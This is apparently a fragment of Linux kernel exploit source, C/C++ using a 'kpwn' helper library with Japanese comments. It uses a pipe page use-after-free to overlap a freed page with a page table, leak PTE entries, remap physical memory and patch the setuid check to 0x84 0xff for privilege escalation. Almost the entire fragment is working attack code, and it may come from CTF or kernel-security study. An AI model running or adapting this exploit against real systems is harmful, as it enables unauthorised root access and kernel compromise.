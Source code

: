 ```c

  int breaker = -1;
  int victim = -1;
  for (int i = 0; i < NUM_PIPES * 2; i++) {
    auto [n, r] = kpwn::utils::read(pipes[i][0], 1);
    if (n == 0)
      kpwn::fatal("read error");

    // 先程、pipes[i] に i を書き込んだため、そこからreadを行えば i が帰ってくるはず。
    if (*r != i) {
      // しかし、脆弱性によってpageがずれると、犠牲になったpipeは別のバッファを指すことになる。それを検知する。
      // そこに書き込まれている値が、本来そのバッファを使っていたpipeのインデックスであるため、それを記録。

      breaker = i;
      victim = *r;
      goto found;
    }
  }

  kpwn::fatal("no broken pipe");

found:
  kpwn::success("found broken pipe. breaker: %d, victim: %d", breaker, victim);

  // breaker 側からpageを破棄する。
  // breaker -> page(FREED) <- victim
  close(pipes[breaker][0]);
  close(pipes[breaker][1]);

  // victim は開放されたpageに対する読み書きを行うことができる。

  kpwn::memory::mmap(0x1, 0x0, 0x1, 0x0, 0x0, {.touch = 1});
  // 新しく PTE を確保する。運が良ければ victim が掴んでいるpageと重なる。

  // victimからデータを読み出し、それを表示してみる。PTEの内容が出てくることが期待される。
  auto [num_read, read_buf] = kpwn::utils::read(pipes[victim][0], 100);

  kpwn::info("-- pte leak --");
  kpwn::misc::hexdump(read_buf, num_read);

  kpwn::info("pte entry: %lx", kpwn::kernel::pte_to_phy(*(int64_t *)read_buf));
  // 表示はしなくても良いが、readはしておかないと変なところからPTEに書き込みが入ってしまうため、必ずバッファを空にすることを忘れずに。

  size_t dest_phy = 0xc87c2; // setuid の if文の部分。xcacheと同じ。
  for (int entry_idx = 0; entry_idx < 256; entry_idx++) {
    uint64_t pte_entry = kpwn::kernel::dest_to_pte_entry(dest_phy, entry_idx);
    write(pipes[victim][1], &pte_entry, sizeof(pte_entry));
    // パイプに大量のPTEエントリを書き込んでいく。xcacheと同じ。
  }

  for (int check_idx = 0; check_idx < 256; check_idx++) {
    char *check_addr = (char *)kpwn::kernel::pti_to_virt(
        0x1, 0x0, 0x1, check_idx, dest_phy & 0xfff);

    if (check_addr[0] == (char)0x84 && check_addr[1] == (char)0xc0) {
      check_addr[0] = 0x84;
      check_addr[1] = 0xff;
      // これも同じ
      kpwn::info("setuid = %p", check_addr);
      break;
    }
  }

```